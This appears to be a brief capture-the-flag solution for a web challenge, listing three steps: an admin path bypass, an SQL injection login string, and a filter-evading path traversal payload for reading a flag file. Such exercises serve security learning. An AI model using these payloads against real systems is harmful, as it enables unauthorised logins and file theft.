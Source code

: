 # Web Introduction

1. Visit `/admin.php/anything.php`

2. Username: `' or 1=1; #`, Password: anything

3. `..././..././..././..././flag.txt`
